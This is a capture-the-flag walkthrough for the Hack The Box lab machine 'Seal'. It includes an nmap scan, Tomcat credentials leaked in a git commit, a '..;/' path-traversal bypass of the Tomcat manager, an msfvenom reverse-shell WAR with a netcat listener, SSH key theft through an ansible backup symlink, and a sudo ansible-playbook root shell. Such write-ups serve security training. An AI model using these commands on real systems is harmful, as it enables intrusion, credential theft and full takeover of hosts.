 # Seal

## Remote Discovery
> Note: the box IP has been added to the `/etc/hosts` file as `seal.htb`

### Nmap Scan
An `nmap -Sc -Sv seal.htb` yields:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-19 12:58 EDT
Nmap scan report for seal.htb (10.10.10.250)
Host is up (0.100s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
...
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
...
8080/tcp open  http-proxy
```

### GitBucket
Doing some exploring, we find a gitbucket page on `http://seal.htb:8080`, which is what the `8080 http-proxy` port is being used for. There doesn't seem to be any special requirments for creating a local account there... so we can create a user on their server. We'll use a username of `tester` and a password of `test`.

With this, we can view and download the entire code base for the server. One interesting find is on commit `ac210325afd2f6ae17cce84a8aa42805ce5fd010` we find some raw creds in `seal_market/tomcat/tomcat_users.xml`:
> Username: `tomcat`
>
> Password: `42MrHBf*z8{Z%`

We'll try to use these creds to get a foothold into their server. We've seen that `https://seal.htb/manager/html` gives us a `403 Forbidden`, but there is a sibling page `/manager/status` that was not blocked. On top of that, `Tomcat 9.0.31` has a path traversal vulnerability that allows us to get the the `/manager/html` page without being denied. We go to this url:
```
https://seal.htb/manager/status/..;/html
```

This explolits CVE-2020-1935 wherein an EOL char will screw up the interpretation of the url string. From here, we can access things like:
- Start, stop, reload, undeploy applications
- Deploy directory or WAR file located on server
- Re-read TLS configuration files
- Check to see if a web application has caused a memory leak on stop, reload or undeploy
- TLS connector configuration diagnostics

In the same way we can get to the manager, we can get to the host-manager similarly:
```
https://seal.htb/host-manager/text/..;/html
```

Here we can:
- Add Virtual Host
- List hosts
- Save current configuration (including virtual hosts) to server.xml and per web application context.xml files 

With this, we should be able to do some damage (insert picture of Phil Swift saying "thats a lot of damage")...


## Foothold

To get our foothold, we'll create a reverse shell WAR file using msfvenom:
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$YOUR_IP LPORT=4242 -f war > reverse.war

$ strings reverse.war | grep jsp # in order to get the name of the file
```

Now we can start a `nc -lvnp 4242` listener on our machine, upload the war file, run it from the manager page, and get a basic shell.

Now we need to get access to _luis_, found in `/etc/passwd`. By looking around at things running, we find that ansible is running the playbook at `/opt/backups/playbook/run.yml` every 30 seconds. Looking into `run.yml` we find that we are making a backup of a directory in which we have write access.

Knowing this, we can make a symlink to `/home/luis/.ssh` in the backup. When the playbook backs this up, it will take the actual files. From here, we can copy the archived folder into the `/tmp/` directory, unpack it, and view the `id_rsa` file that contains luis' private ssh key! From here we can log into `luis@seal.htb` and get `user.txt`.

## Privesc

From here, we find that luis has sudo privs on ansible-playbook. With this, we can simply run this to get a root shell:
```
$ TF=$(mktemp)
$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
$ sudo ansible-playbook $TF
...
# whoami
root
```
